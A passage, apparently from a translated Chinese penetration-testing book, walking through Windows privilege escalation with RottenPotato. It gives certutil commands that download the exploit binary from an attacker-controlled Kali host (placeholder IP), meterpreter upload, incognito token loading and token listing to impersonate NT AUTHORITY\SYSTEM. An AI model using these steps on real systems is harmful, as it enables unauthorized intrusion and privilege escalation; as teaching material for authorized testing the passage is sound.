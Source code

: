     图 6.17 – 默认用户目录

    现在我们可以使用**certutil**工具从 Kali 虚拟机下载二进制文件到我们的目标系统。可以通过在目标系统上运行以下命令来完成：

    **certutil -urlcache -f http://<KALI-VM-IP>/rottenpotato.exe rottenpotato.exe**

    或者，我们也可以使用**meterpreter**上传**rottenpotato.exe**二进制文件。可以通过运行以下命令来实现：

    **upload /<BINARY-LOCATION>/rottenpotato.exe**

1.  根据使用程序的步骤，下一步是在**meterpreter**中加载**incognito**模块。可以通过运行以下命令来完成：

    **load incognito**

1.  在加载**incognito**模块后，我们现在可以执行**rottenpotato.exe**二进制文件。可以通过在**meterpreter**中启动 shell 会话，运行以下命令来完成：

    **shell**

    在目标系统上启动 shell 会话后，我们可以通过运行以下命令来执行**rottenpotato.exe**二进制文件：

    **.\rottenpotato.exe**

    如果漏洞利用成功，你应该会收到如下图所示的消息：

    ![图 6.18 – RottenPotato 漏洞利用成功    ](img/B17389_06_018.jpg)

    图 6.18 – RottenPotato 漏洞利用成功

1.  现在我们可以终止 shell 会话并返回到**meterpreter**会话，并列出可用于伪装的访问令牌。可以通过运行以下命令来实现：

    **list_tokens -u**

    如下图所示，这将列出我们可以伪装的所有可用用户令牌，从而提升我们的权限。在这种情况下，我们能够识别出具有委托安全级别的**NT AUTHORITY/SYSTEM**访问令牌：

    ![图 6.19 – 列出令牌    ](img/B17389_06_019.jpg)
